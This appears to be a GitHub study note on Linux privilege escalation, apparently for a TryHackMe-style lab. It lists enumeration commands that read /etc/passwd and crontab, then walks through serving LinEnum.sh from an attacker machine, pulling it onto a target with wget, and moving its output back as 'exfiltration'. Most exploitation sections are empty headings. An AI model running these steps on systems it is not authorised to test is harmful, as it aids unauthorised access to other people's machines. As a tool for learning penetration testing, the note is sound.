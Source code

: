 # Linux Privilege Escalation


## Initial checklist

1. Determining the kernel of the machine (kernel exploitation such as Dirtyc0w)
2. Locating other services running or applications installed that may be abusable (SUID & out of date software)
3. Looking for automated scripts like backup scripts (exploiting crontabs)
4. Credentials (user accounts, application config files..)
5. Mis-configured file and directory permissions  

## Enumeration

### Query the System

`:> hostname` : Query the hostname  

`:> uname -a`  : Query Kernel information  

`:> cat /etc/passwd`  :  Identify system users  

`:> cat /etc/shells` : Identify potentially useful shells on the system

`:> cat /etc/crontab` : List cron jobs

`:> cat /proc/version` : Specifics about the kern verion and the GCC compilers use to build the kernel  

`:> cat /etc/issue` : Contains the pre-login prompt and can be changed



### LinEnum.sh to Exfiltrate the system information

Get LinEnum.sh onto the attacking device

`:> wget -O LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/refs/heads/master/LinEnum.sh`

Gain access to the target machine

![Logged In](assets/Linux-PrivEsc-01-LinEnum-01.png)

Open a simple server on the attacking device in the directory from where LinEnum can be transported.

`:> python3 -m http.server 8888`

![Python Server](assets/Linux-PrivEsc-01-LinEnum-02.png)  

On the target device, set up a location from where the script will run.  

![Target Locationls](assets/Linux-PrivEsc-01-LinEnum-03.png)  

Pull the script from the python server to the target device.  

`:> wget 10.201.47.243:8888/LinEnum.sh`

The serving attacker logs the "GET" request and the target device recevies the script

![wget LinEnum](assets/Linux-PrivEsc-01-LinEnum-04a.png)  

If the target device is permitted a WAN connection, pull the script from GitHub.

`:> wget -O LinEnumFromGit.sh https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh`  

Add execution privileges to the script 

`:> chmod +x LinEnum.py`

![with exeuction](assets/Linux-PrivEsc-01-LinEnum-05.png)  

Run the script and output to a file that can be studied for escalation opportunities

`:> ./LinEnum.sh > enum.txt`

Shutdown the server on the attacking device

![Server Shutdown](assets/Linux-PrivEsc-01-LinEnum-06.png)  

Reverse the server setup and transfer the enum.txt to the attacking device for analysis and resource development.

![Data Exfiltration](assets/Linux-PrivEsc-01-LinEnum-07.png)

### Use FIND to identify useful file properties and attributes  


## SUID/GUID 

## Writeable /etc/passwd files

## Escaping the Vi editor

## Exploit Crontab

## Exploiting the PATH variable

## Other References

!(https://medium.com/@JAlblas/tryhackme-common-linux-privesc-walkthrough-296e8babe42f)
!(https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md)
!(https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
!(https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html)
!(https://payatu.com/guide-linux-privilege-escalation)
!(https://david-varghese.medium.com/tryhackme-linux-privesc-9ea2cfac3b76)
!(https://dev.to/christinec_dev/try-hack-me-linux-privesc-complete-write-up-20fg)